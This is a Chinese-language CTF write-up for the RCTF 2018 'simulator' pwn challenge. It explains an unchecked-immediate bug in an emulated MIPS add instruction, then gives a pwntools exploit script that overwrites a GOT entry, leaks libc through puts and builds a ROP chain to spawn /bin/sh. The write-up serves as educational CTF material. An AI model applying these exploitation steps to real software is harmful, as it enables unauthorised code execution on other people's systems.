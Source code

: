 # RCTF simulator
## Author： Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>学习了NextLine队伍的wp（[原链接](https://lyoungjoo.github.io/2018/05/21/RCTF-2018-Write-Up/)），自己理解复现了一遍，现在我讲解一下：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下关了GOT覆写保护，也关了基址随机化保护，那么就算题目没有给libc也可以用自己的，‘ldd simulator’一下然后用pwntools的ELF读取就行了。这题主要复杂在前面冗长的逆向分析，实际上模拟了MIPS指令，利用技巧上不难，程序对立即数没有检查，可以利用程序逻辑漏洞泄露更改任意地址。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>举个add指令的例子：</font></br>

```C
int __cdecl add(int arg1, signed int arg2, signed int arg3)
{
  int reg; // eax@2
  int v4; // eax@5
  int reg_ptr; // [sp+8h] [bp-8h]@4

  if ( arg2 > 31 )
    reg = arg2 - 32;
  else
    reg = reg_arr[2 * arg2];
  reg_ptr = reg;
  if ( arg3 > 31 )
    v4 = arg3 - 32;
  else
    v4 = reg_arr[2 * arg3];
  reg_arr[2 * arg1] = v4 + reg_ptr;
  return i++ + 1;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就相当于 add arg1,arg2,arg3。没有寻址检测，这就意味着如果我们不用寄存器的话，可以任意地址写，因为数组访问的本质上就是一些运算寻址罢了。因为可以改写GOT表，而且开了堆栈保护，那么我们可以覆写__stack_chk_fail函数的GOT表，覆盖为我们的payload来getshell。剩下的就是一些常用技巧了，计算基址算出libc的system和'/bin/sh'的地址。</font></br>

Exploit脚本:
=======

```python
asm = []
#利用add修改GOT表
asm.append('add %d, %d' % (c_uint32((1<<32) - 321-0x20).value,0x0804852e))
asm.append('END')

f = ''
for i in asm:
        f += i + "\n"
s.send(f)

#gadget
pr = 0x0804a8cb
pppr = 0x0804b339
lr = 0x080486e8

#泄露puts函数GOT表地址来计算基址
payload = 'A' * 0x30
payload += p32(e.plt['puts']) + p32(pr) + p32(e.got['puts'])
payload += p32(0x804ac58)
s.sendline(payload)

s.recvuntil('leave a comment: ')
libc = u32(s.recv(4)) - l.symbols['puts']
log.info("LIBC :" + hex(libc))

s.sendline('END')
binsh = next(l.search('/bin/sh'))
payload = 'A' * 0x30
payload += p32(libc + l.symbols['system']) + p32(pr) + p32(libc+binsh)
s.sendline(payload)
```

